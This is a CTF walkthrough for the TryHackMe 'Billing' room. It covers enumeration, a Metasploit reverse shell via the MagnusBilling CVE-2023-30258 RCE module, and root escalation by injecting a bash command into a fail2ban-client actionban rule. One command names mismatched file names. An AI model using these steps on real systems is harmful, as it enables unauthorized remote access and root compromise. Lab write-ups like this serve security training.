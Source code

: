 # Billing CTF TryHackMe

## Step 1: Nmap Scan

I ran an nmap scan on the ip with this command `nmap -A <target-ip>` and yielded these results in return:


![Screenshot 2025-03-09 001847](https://github.com/user-attachments/assets/fda6dfc4-b482-43de-8b11-79465059d1ea)


From this scan we can see SSH is open. I also see that port 80 is running MagnusBilling and port 3306 is running MariaDB.

## Step 2: Enumerate Some More

After running the Nmap scan I ran gobuster to find any directories we may not know about using this command: `gobuster dir -u http://10.10.2.151 -w /usr/share/wordlists/dirb/common.txt`

Doing this revealed these directories: 

![Screenshot 2025-03-09 002404](https://github.com/user-attachments/assets/a2c0bb38-84a7-4bee-8dfe-ed69a4c77fb5)


## Step 3: Finding an exploit

Knowing that MagnusBilling was being used on here I searched for common exploits and found CVE-2023-30258. The first link of the google search "magnus billing exploits" brought me to this page -> 
https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/

This was fantastic because it showed me how to create a reverse shell using Metasploit. Below will be the commands I used to start a reverse shell:

```
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258

set RHOSTS <target-ip>

set LHOSTS <attackers-ip>

exploit
```

The shell works as seen below:

![Screenshot 2025-03-09 003258](https://github.com/user-attachments/assets/1edfcea7-19d5-43b1-90be-df64805a43b2)

## Step 4: Finding Users.txt

This is probably the most simple part of the CTF as all you need to do is look around the system, I found users.txt in /home/magnus.

![Screenshot 2025-03-09 003456](https://github.com/user-attachments/assets/5bcfbfbd-87f8-4140-a756-a9a0b53adab4)

Don't just copy me, find it yourself. 😓

## Step 5: Priv Esc and finding the Root flag

Using `sudo -l` saves so much time when trying to figure how to get a privilige escalation 

If `sudo -l` didn't work for you like it did for me type `shell` into your meterpreter and it should be fixed.

Anyways, after using that command we can see that our user can run all commands with the fail2ban-client. So, we want to be able to have the fail2ban client read root.txt and store it in a location that
we can access as the user we currently are.

![Screenshot 2025-03-09 005105](https://github.com/user-attachments/assets/d013ab47-9b8e-4644-b134-c4621fbb5149)

To move the root flag over to a better area I ran this command:

`sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /var/www/html/mbilling/lib/icepay/rootflag.txt && chmod 777 /var/www/html/mbilling/lib/icepay/root_exposed.txt'"`

Here I modified an actionban rule to basically read the root file and then output that file to /var/www/html/mbilling/lib/icepay/. For this to work though, we need to force fail2ban to actually execute this action by banning the loopback IP address as shown below.

`sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1`


Now all we need to do is go to the directory and do `cat rootflag.txt` and then we are done!


![Screenshot 2025-03-09 010053](https://github.com/user-attachments/assets/b408b4d6-7fb5-4c70-81f7-8ba0370908e9)




